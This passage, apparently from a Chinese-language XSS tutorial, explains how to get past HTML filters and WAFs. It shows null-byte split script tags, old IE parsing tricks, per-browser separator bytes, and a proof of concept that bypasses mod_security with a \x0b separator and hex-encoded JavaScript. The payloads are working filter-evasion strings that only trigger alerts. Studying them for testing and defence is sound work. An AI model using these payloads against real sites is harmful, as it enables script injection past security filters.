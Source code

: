 [code]

    <scri%00pt>alert(1);</scri%00pt>
    <scri\x00pt>alert(1);</scri%00pt>
    <s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
    <!--空字节直到php5.3.8还能奏效>
[/code]



**5.1.4 解析bug**  
RFC文档声明了节点名不能是空格，这意味着下面的代码不能运行

[code]

    <script>alert(1);</script>
    <%0ascript>alert(1);</script>
    <%0bscript>alert(1);</script>
[/code]

不妨试想一下，过滤器在节点名开始处就查找字符(a-z)并将其过滤掉。但是如果我们可以注入其它如% , // ,
!等的特殊符号，我们就可能绕过旧版本的IE过滤器。原因是旧版本IE的攻击载荷，例如
<%,<//,<!,<?会被解析为<，然后我们就可以在这些字符后面注入攻击载荷了，下面是几个例子;

[code]

    <// style=x:expression\28write(1)\29> // Works upto IE7
    <!--[if]><script>alert(1)</script --> // Works upto IE9
    <?xml-stylesheet type="text/css"?><root style="x:expression(write(1))"/>
[/code]

  
  

**5.1.5 Unicode分隔符**

在Unicode字符集中有一些分隔符，比如空格，每个浏览器都有它自己的分隔符。当你碰上一个有着良好规则的WAF，它们通常会拦截所有的事件处理函数，阻塞所有事件处理函数的正则表达式如下所示：  
[on\w+\s*]  
上面的正则表达式会查找所有以on*开通的字符串并将其删除，元字符"\s"的问题是它不包含一些分隔符，如x0b

为了确定每个浏览器的有效分隔符，我们可以从0x00到0xff进行模糊测试，幸运的是已经有人为每个浏览器编出了一个有效分隔符的列表：

[code]

    IExplorer= [0x09,0x0B,0x0C,0x20,0x3B]
    Chrome = [0x09,0x20,0x28,0x2C,0x3B]
    Safari = [0x2C,0x3B]
    FireFox= [0x09,0x20,0x28,0x2C,0x3B]
    Opera = [0x09,0x20,0x2C,0x3B]
    Android = [0x09,0x20,0x28,0x2C,0x3B]
[/code]

上面所有这些分隔符中，oxb是比较难搞懂的，mod_security使用类似上面描述的正表达式，我用下面的poc又一次绕过了mod_security

[code]

    <a/onmouseover[\x0b]=location='\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B'>rhainfosec
[/code]

